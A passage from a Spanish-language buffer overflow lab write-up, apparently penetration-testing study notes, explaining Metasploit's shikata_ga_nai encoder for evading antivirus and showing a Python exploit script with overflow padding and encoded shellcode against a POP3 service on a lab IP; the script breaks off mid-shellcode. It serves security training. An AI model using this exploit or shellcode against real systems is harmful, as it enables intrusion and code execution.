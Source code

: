 Nota: Al crear el shellcode, si se especifican los badchars, por defecto se empleará el encoder “x86/shikata_ga_nai”.

- ¿Qué es el encoder shikata na gai?
    
    El término "shikata ga nai" proviene del japonés y significa "no se puede hacer nada al respecto" o "nada puede hacerse al respecto". En el contexto de la seguridad informática y el malware, "Shikata Ga Nai" se refiere a un módulo de codificación/polimorfismo utilizado en la herramienta de creación de malware Metasploit Framework.
    
    En Metasploit Framework, "Shikata Ga Nai" es un encoder polimórfico diseñado para alterar el código del shellcode (código ejecutable en lenguaje de máquina) utilizado para explotar vulnerabilidades en sistemas informáticos. Su objetivo principal es evadir la detección por parte de programas antivirus y sistemas de seguridad.
    
    El encoder Shikata Ga Nai cambia la estructura del shellcode en cada ejecución utilizando técnicas de ofuscación, reorganización y cifrado. Esto genera una variante única del shellcode en cada ejecución, lo que dificulta que las soluciones de seguridad basadas en patrones o firmas identifiquen y bloqueen el código malicioso.
    
    Es importante mencionar que Metasploit Framework es una herramienta legítima utilizada para pruebas de penetración y evaluación de seguridad. Sin embargo, también puede ser utilizada por atacantes para desarrollar y desplegar malware. Como resultado, las técnicas de codificación y ofuscación, como el encoder Shikata Ga Nai, pueden ser empleadas tanto con fines legítimos como maliciosos.
    

![Untitled](../assets/Buffer-Overflow/Lab1/Buscar-OpCodes-Cargar-Shellcode/Untitled.png)

Ahora se copiará este shellcode proporcionado y se usará para enviarlo como payload en el script:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = b"B"*4
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
```